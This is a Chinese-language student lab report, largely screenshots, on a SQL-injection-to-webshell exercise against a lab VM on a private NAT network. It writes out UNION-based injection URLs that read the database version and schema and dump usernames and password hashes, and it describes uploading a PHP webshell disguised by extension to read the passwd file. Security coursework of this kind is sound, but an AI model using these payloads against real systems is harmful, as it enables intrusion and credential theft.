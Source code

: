 实验三 SQL注入Shell
==============================

## 实验环境准备


### 下载镜像文件，安装在虚拟机


### 攻击机和服务器在同一NAT网络

* #### 1.服务器

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/%E7%9B%AE%E6%A0%87%E6%9C%8D%E5%8A%A1%E5%99%A8ifconfig.jpg)

* #### 2.攻击机

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/%E6%94%BB%E5%87%BB%E6%9C%BAifconfig.jpg)


## 实验过程

* ### 使用 nmap 查看服务器开启情况

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/nmap%E6%9F%A5%E7%9C%8B%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E5%8F%A3.jpg)

* ### 攻击机访问服务器，使用Burpsuite抓到应答包，获取服务器相关信息

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/burpsuite%E6%8A%93http%E5%8C%85.jpg)


* ### 使用 wfuzz 获取服务器的文件目录

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/WFUZZ%E6%9F%A5%E7%9C%8B%E6%96%87%E4%BB%B6.jpg)

## 检测利用SQL注入漏洞

* ### 攻击机通过浏览器访问服务器

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/%E8%AE%BF%E9%97%AE%E6%9C%8D%E5%8A%A1%E5%99%A8.jpg)


* ### 地址 http://10.0.2.12/cat.php?id=1 页面

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/1.jpg)


* ### 地址 http://10.0.2.12/cat.php?id=2-1 页面

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/2-1.jpg)

### 我们发现两个页面获取的页面相同，所以此时证明存在SQL注入漏洞

* ### 使用  http://10.0.2.12/cat.php?id=2 union select 1,2,3,4   查询列数为4

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/union%20select%201%2C2%2C3%2C4%2C.jpg)

* ### 使用  http://10.0.2.12/cat.php?id=2 union select 1,@@version.3.4   获取数据库的版本信息

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/%40%40version.jpg)


* ### 使用  http://10.0.2.12/cat.php?id=2 union select 1,concat(table_name,':',column_name),3,4 from information_schame.columns   获取用户表

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/concat.jpg)

* ### 使用   http://10.0.2.12/cat.php?id=2 union select 1,concat(login,':',password),3,4 from users   直接获取用户名和密码

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/%E8%8E%B7%E5%8F%96%E5%AF%86%E7%A0%81.jpg)



* ### 在线破解MD5值，获取密码

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/%E7%A0%B4%E8%A7%A3MD5.jpg)


* ### 使用获取的用户名和密码登录

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/%E7%99%BB%E5%BD%95.jpg)


* ### 在本地写一个Shell.php.test文件，绕过服务器对php文件的检测，上传之后，我们可以看到变化

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/Test.jpg)



* ### 通过webshell查看服务器的passwd文件

![](https://raw.githubusercontent.com/Geraens/ns/5bf06c8fd68394c895ce602be491c17228500878/2017-2/Geraens/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A%E5%8F%8A%E7%9B%B8%E5%85%B3%E6%96%87%E4%BB%B6/SQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/%E5%AE%9E%E9%AA%8C%E5%9B%BE%E7%89%87/%E6%9F%A5%E7%9C%8B%E6%96%87%E4%BB%B6.jpg)

